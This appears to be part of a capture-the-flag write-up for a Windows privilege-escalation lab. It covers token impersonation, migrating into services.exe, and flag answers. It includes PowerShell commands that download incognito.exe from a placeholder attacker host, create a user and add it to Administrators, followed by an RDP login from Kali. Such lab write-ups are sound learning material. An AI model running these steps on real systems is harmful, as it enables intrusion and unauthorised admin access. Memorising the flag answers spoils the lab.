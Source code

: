 **Answer: NT AUTHORITY\SYSTEM**

Even though you have a higher privileged token you may not actually have the permissions of a privileged user (this is due to the way Windows handles permissions - it uses the Primary Token of the process and not the impersonated token to determine what the process can or cannot do). Ensure that you migrate to a process with correct permissions (above questions answer). The safest process to pick is the services.exe process. First use the *ps* command to view processes and find the PID of the services.exe process. Migrate to this process using the command *migrate PID-OF-PROCESS*

**Answer: No answer need**

read the root.txt file at C:\Windows\System32\config

1. download and unzip https://labs.mwrinfosecurity.com/assets/BlogFiles/incognito2.zip


    PS C:\Users\bruce\Desktop> powershell "(New-Object System.Net.WebClient).Downloadfile('http://<Local_IP>:8000/incognito2/incognito.exe','incognito.exe')"
    PS C:\Users\bruce\Desktop> ./incognito.exe add_user dummy pass123
    PS C:\Users\bruce\Desktop> ./incognito.exe add_localgroup_user Administrators dummy

2. on Kali shell
    $rdesktop -u dummy -p pass123 <Target_IP>

3. run cmd as Administrator
 ![Desktop](https://miro.medium.com/max/700/1*I_g6ea_ipdxnaWCrXFa9lA.png)    

**Answer: dff0f748678f280250f25a45b8046b4a**
